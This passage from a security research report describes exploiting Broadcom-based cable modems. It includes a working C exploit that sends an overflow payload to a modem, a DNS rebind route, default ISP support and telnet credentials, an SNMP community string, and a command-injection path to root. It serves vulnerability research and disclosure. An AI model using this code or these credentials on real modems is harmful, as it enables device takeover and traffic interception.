#               AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x80(\x04tAAAAAAAAAAAAAA
#               AAAAAA\x80\xeeV|AAAA\x80%\xec\xd0AAAAAAAAAAAAAAAAAAAAAAAAAAAA\x80\n
#               \xa0\x90AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
#               \x80\xeeV|,
#    "gain":1
#  },
#  "id":"0"
#}
\end{lstlisting}

The code overrides the correct addresses as explained in \cref{subsec:exploitingTheVulneruablity} ending up calling the target function correctly.

Since we have full access to the linux side externally we can simply compile the code, and send it to the server over FTP. The equivalent C code executed on the media server can be seen in \cref{lst:cExploitCode}. 
A guide for installing the toolchain can be found at \url{https://github.com/broadcom/aeolus}.
This installs a linux elf toolchain for mips architectures, and if one wants to compile raw mips binary for running on the eCos side you have to strip the elf file as done in the Makefile of this project.

\begin{lstlisting}[language=c,label={lst:cExploitCode},caption={C code for execptunig the exlpoit request}]
#include <stdlib.h>
#include <string.h>
#include <stdio.h>
#include <netinet/in.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <arpa/inet.h>
#include <unistd.h>

#define REMOTE_ADDR "192.168.100.1"
#define REMOTE_PORT 8080
#define BUF_SIZE 10000

char payload1[] = { 
0x47, 0x45, 0x54, 0x20, 0x2f, 0x20, 0x48, 0x54, 
0x54, 0x50, 0x2f, 0x31, 0x2e, 0x31, 0x0d, 0x0a, 
0x55, 0x70, 0x67, 0x72, 0x61, 0x64, 0x65, 0x3a, 
0x20, 0x77, 0x65, 0x62, 0x73, 0x6f, 0x63, 0x6b, 
0x65, 0x74, 0x0d, 0x0a, 0x43, 0x6f, 0x6e, 0x6e, 
0x65, 0x63, 0x74, 0x69, 0x6f, 0x6e, 0x3a, 0x20, 
0x55, 0x70, 0x67, 0x72, 0x61, 0x64, 0x65, 0x0d, 
0x0a, 0x48, 0x6f, 0x73, 0x74, 0x3a, 0x20, 0x31, 
0x32, 0x37, 0x2e, 0x30, 0x2e, 0x30, 0x2e, 0x31, 
0x3a, 0x31, 0x32, 0x33, 0x34, 0x0d, 0x0a, 0x4f, 
0x72, 0x69, 0x67, 0x69, 0x6e, 0x3a, 0x20, 0x68, 
0x74, 0x74, 0x70, 0x3a, 0x2f, 0x2f, 0x31, 0x32, 
0x37, 0x2e, 0x30, 0x2e, 0x30, 0x2e, 0x31, 0x3a, 
0x31, 0x32, 0x33, 0x34, 0x0d, 0x0a, 0x53, 0x65, 
0x63, 0x2d, 0x57, 0x65, 0x62, 0x53, 0x6f, 0x63, 
0x6b, 0x65, 0x74, 0x2d, 0x4b, 0x65, 0x79, 0x3a, 
0x20, 0x72, 0x32, 0x73, 0x72, 0x55, 0x4f, 0x6b, 
0x50, 0x62, 0x6e, 0x4b, 0x68, 0x79, 0x6d, 0x48, 
0x7a, 0x4e, 0x45, 0x77, 0x50, 0x74, 0x77, 0x3d, 
0x3d, 0x0d, 0x0a, 0x53, 0x65, 0x63, 0x2d, 0x57, 
0x65, 0x62, 0x53, 0x6f, 0x63, 0x6b, 0x65, 0x74, 
0x2d, 0x56, 0x65, 0x72, 0x73, 0x69, 0x6f, 0x6e, 
0x3a, 0x20, 0x31, 0x33, 0x0d, 0x0a, 0x0d, 0x0a };

char payload2[] = { 
0x81, 0xfe, 0x01, 0x6a, 0x15, 0x2a, 0x61, 0xcd, 
0x6e, 0x08, 0x0b, 0xbe, 0x7a, 0x44, 0x13, 0xbd, 
0x76, 0x08, 0x5b, 0xef, 0x27, 0x04, 0x51, 0xef, 
0x39, 0x08, 0x0c, 0xa8, 0x61, 0x42, 0x0e, 0xa9, 
0x37, 0x10, 0x43, 0x8b, 0x67, 0x45, 0x0f, 0xb9, 
0x70, 0x44, 0x05, 0xf7, 0x2f, 0x6d, 0x04, 0xb9, 
0x53, 0x58, 0x0e, 0xa3, 0x61, 0x4f, 0x0f, 0xa9, 
0x46, 0x5a, 0x04, 0xae, 0x61, 0x58, 0x14, 0xa0, 
0x51, 0x4b, 0x15, 0xac, 0x37, 0x06, 0x43, 0xbd, 
0x74, 0x58, 0x00, 0xa0, 0x66, 0x08, 0x5b, 0xb6, 
0x37, 0x49, 0x0e, 0xbf, 0x70, 0x63, 0x25, 0xef, 
0x2f, 0x1a, 0x4d, 0xef, 0x73, 0x79, 0x15, 0xac, 
0x67, 0x5e, 0x29, 0xb7, 0x37, 0x10, 0x20, 0x8c, 
0x54, 0x6b, 0x20, 0x8c, 0x54, 0x6b, 0x20, 0x8c, 
0x54, 0x6b, 0x20, 0x8c, 0x54, 0x6b, 0x20, 0x8c, 
0x54, 0x6b, 0x20, 0x8c, 0x54, 0x6b, 0x20, 0x8c, 
0x54, 0x6b, 0x20, 0x8c, 0x54, 0x6b, 0x20, 0x8c, 
0x54, 0x6b, 0x20, 0x8c, 0x54, 0x6b, 0x20, 0x8c, 
0x54, 0x6b, 0x20, 0x8c, 0x54, 0x6b, 0x20, 0x8c, 
0x54, 0x6b, 0x20, 0x8c, 0x54, 0x6b, 0x20, 0x8c, 
0x54, 0x6b, 0x20, 0x8c, 0x54, 0x6b, 0x20, 0x8c, 
0x54, 0x6b, 0x20, 0x8c, 0x54, 0x6b, 0x20, 0x8c, 
0x54, 0x6b, 0x20, 0x8c, 0x54, 0x6b, 0x20, 0x8c, 
0x54, 0x6b, 0x20, 0x8c, 0x54, 0x6b, 0x20, 0x8c, 
0x54, 0x6b, 0x20, 0x8c, 0x54, 0x6b, 0x20, 0x8c, 
0x54, 0x6b, 0x20, 0x8c, 0x54, 0x6b, 0x20, 0x8c, 
0x54, 0x6b, 0x20, 0x8c, 0x54, 0x6b, 0x20, 0x8c, 
0x54, 0x6b, 0xe1, 0xe5, 0x11, 0x5e, 0x20, 0x8c, 
0x54, 0x6b, 0x20, 0x8c, 0x54, 0x6b, 0x20, 0x8c, 
0x54, 0x6b, 0x20, 0x8c, 0x54, 0x6b, 0x20, 0x8c, 
0x54, 0x6b, 0xe1, 0x23, 0x43, 0x56, 0x20, 0x8c, 
0x54, 0x6b, 0xe1, 0xe8, 0xf9, 0xfa, 0x20, 0x8c, 
0x54, 0x6b, 0x20, 0x8c, 0x54, 0x6b, 0x20, 0x8c, 
0x54, 0x6b, 0x20, 0x8c, 0x54, 0x6b, 0x20, 0x8c, 
0x54, 0x6b, 0x20, 0x8c, 0x54, 0x6b, 0x20, 0x8c, 
0x54, 0x6b, 0xe1, 0xc7, 0xb5, 0xba, 0x20, 0x8c, 
0x54, 0x6b, 0x20, 0x8c, 0x54, 0x6b, 0x20, 0x8c, 
0x54, 0x6b, 0x20, 0x8c, 0x54, 0x6b, 0x20, 0x8c, 
0x54, 0x6b, 0x20, 0x8c, 0x54, 0x6b, 0x20, 0x8c, 
0x54, 0x6b, 0x20, 0x8c, 0x54, 0x6b, 0x20, 0x8c, 
0x54, 0x6b, 0x20, 0x8c, 0x54, 0x6b, 0x20, 0x8c, 
0x54, 0x6b, 0x20, 0x8c, 0x54, 0x6b, 0x20, 0x8c, 
0x54, 0x6b, 0x20, 0x8c, 0x54, 0x6b, 0x20, 0x8c, 
0x54, 0x6b, 0xe1, 0x23, 0x43, 0x56, 0x4d, 0xef, 
0x72, 0x4b, 0x08, 0xa3, 0x37, 0x10, 0x50, 0xb0, 
0x39, 0x08, 0x08, 0xa9, 0x37, 0x10, 0x43, 0xfd, 
0x37, 0x57 };

int main(int argc, char *argv[])
{
    struct sockaddr_in sa;
    int s;

    char *buf = calloc(BUF_SIZE, sizeof(char));

    int payload1Lenght = sizeof(payload1);
    int payload2Lenght = sizeof(payload2);

    sa.sin_family = AF_INET;
    sa.sin_addr.s_addr = inet_addr(REMOTE_ADDR);
    sa.sin_port = htons(REMOTE_PORT);

    s = socket(AF_INET, SOCK_STREAM, 0);
    connect(s, (struct sockaddr *)&sa, sizeof(sa));
    send(s, payload1, payload1Lenght, 0);
    recv(s, buf, BUF_SIZE, 0);

    send(s, payload2, payload2Lenght, 0);

    close(s);
    return 0;
}
\end{lstlisting}

\section{Sagemcom F@ast 3890}
Sagemcom was the second exploited modem and was where the generality of the exploit was discovered.
This exploit is not followed all the way through to external root access as in \cref{sec:technicolorTC7230} since our goal now is to gain access to the PC and RA including vital registers since \cref{sec:technicolorTC7230} shows that this can be exploited to full root access.
However a more thorough understanding of the Modem was obtained due to a better understanding of the field.

\subsection{Architecture}
The Sagemcom Fast 3890v3 runs on two CPU’s with MIPS architecture.
One processor runs the Cable Modem (CM), a real time operating system which runs all networking tasks, such as DOCSIS Protocol, IP-stack etc. 
The other processor runs the Residential Gateway (RG), which is a linux operating system in charge of administration and multi-media
tasks. 
The RG side can read and set SNMP of the CM as well as accessing a telnet session on the CM using the ip address 172.31.255.45 which is only reachable from the RG.
This means that an attacker with control of the RG can set the SNMP variable controlling the telnet username and password of the CM, and there by ganing full access.
The two CPU’s share the same flash storage and main memory, leaving a potential vulnerability, where an attacker writes to the memory of the other system. 
This potential vulnerability has not been pursued at the time of writing.

\subsubsection{Residential Gateway}
\label{subsec:residentialGateway}
The RG operates as a bridge between the administration web panel, which the user sees, and the CM as shown in \cref{fig:architectureSagemcom}. 
The RG uses SNMP and telnet to configure the CM, when receiving an HTTP configuration change requests.
So if an attacker can send these configuration change requests, he is almost in full control of the entire cable modem. 

Besides bridging the connection, the RG also runs multimedia services such as UPNP and the authentication for most web endpoints accessible on the local network. 
All RGs have two users for administration in the web control panel, a admin user and a support user. Both users have the same access rights but the support user is meant to only be used by ISP technicians.
Username and password for both users are initially configured using the provisioning file send from the ISP, but can be changed using SNMP.

The RGs from the ISP we have researched provides all RGs with unique passwords for the administration user, making it practically impossible to use this user as authentication for a potential attacker.
However, as we will see later in this section, the support user is configured with default username and password, that can be used to access the RG.

\todo{update CM}
\begin{figure}[h]
  
\includegraphics[width=\linewidth]{../graphics/architectureSagemcom.png}
  \caption{Architecture overview of the Sagemcom F@st 3890}
  \label{fig:architectureSagemcom}
\end{figure}

\subsubsection{Cable Modem}
The CM also runs on the same eCos operating system as the TC7230, which is explained in \cref{sec:eCos}, with the application layer compiled into the OS.
This OS handles all of the networking protocols and the connecting to the CMTS.
Additionally, this is also the OS handling firmware upgrade and keeping track of dynamic settings such as BPI+ and DOCSIS.
As all traffic goes though this CPU and a would-be attacker with access to this OS, could listen and manipulate any traffic going through the modem. 
Attempts to regain control of the modem through firmware upgrades or resets, can not be counted on to recover the system.

\subsection{Attacking the Residential Gateway Linux}
The first step in attacking the RG, is to reach it. The RG itself is not exposed directly
to the internet, but can be accessed from within the network on the address \mono{http:
//192.168.0.1}. This access can be obtained using the methods explained in \cref{cha:dns}.

\subsubsection{DNS Rebind Attack}
Using the technique described in \cref{cha:dns} we can send requests against the RG through the victims client, however we still
have to authenticate before being able to change any settings on the RG. As mentioned in \cref{subsec:residentialGateway} the RG is distributed with a random default password for the administrator user, but there is also a support user with the username ’TDC’ and password ’17.Sodavand’.
These credentials are can be found on the endpoint ’/dumpmdm.cmd’.
These credentials are clearly changeable by the ISP, however we have confirmed that the ISP use the same credentials across all their different modems. The credentials will therefore be available for any attacker owning any router managed by the ISP, even if changed. The methods for DNS rebind also apply to this and the attacker have now external access to the RG.

\subsubsection{Command Line Injection}
As discovered by Jacob Bech\footnote{http://blog.bechsecurity.dk/root-pa-sagemcomf-st-3890/} the modem has a command line injection vulnerability in the diagnostic section of the control panel.
After testing we found it to still be present on the Sagemcom Fast 3890v3, as well as on another RG in active use.
The command line injection vulnerability, is found without the downstream ping utility.
This utility directly passes the target argument to a command line tool running on the RG. 
Through this, the attacker can execute arbitrary linux commands as long as the web control panel can be accessed. Since this can be done through the previously mentioned DNS rebind attack, the attacker can remotely gain full root access to the RG.

\subsubsection{Reaching eCos from Linux}
The RG serves the web control panel and passes instructions to the eCos side of the CM.
The eCos side runs a telnet server which cannot be accessed from external or internal network but the linux side can directly access the telent server.
The telnet server can be accessed using this ip from the linux side 172.31.255.45 with (sagem, sagem) as credentials.
From here the attacker essentially has full control. 
He could for example use the ftp tool to grab an executable reverse shell from his own server and obtain persistent
access to the residential gateway.
Furthermore the same ip can be used to control all SNMP objects by the getsnmp and setsnmp tool available on the linux side with the commodity string private. 
SNMP can, for example, be used to enable debug information, change telnet passwords, change web panel credentials including the support user,and enable the serial debug port on the eCos side.
This telnet connection is limited on the commands which can be executed, but three essential commands are available: writemem, readmem, call. 
Using call the attacker can call any memory address as an assembly function, which exposes all the underlying function, found in the memory. 
In order to pass functions arguments he can first call malloc and then use writemem to change the values on the new allocated addresses.
Then he can pass these addresses as arguments to call to obtain full access.
Readmem can then be used to read returned values.
It is also possible to write new functions in the allocated memory and call them, as the eCos system has no protection against calling
functions on either the stack or heap.
This gives the attacker full control of the CM including control of firmware upgrades, hot swapping code, blocking out remote service access, and perhaps most importantly, control of incoming and outgoing traffic.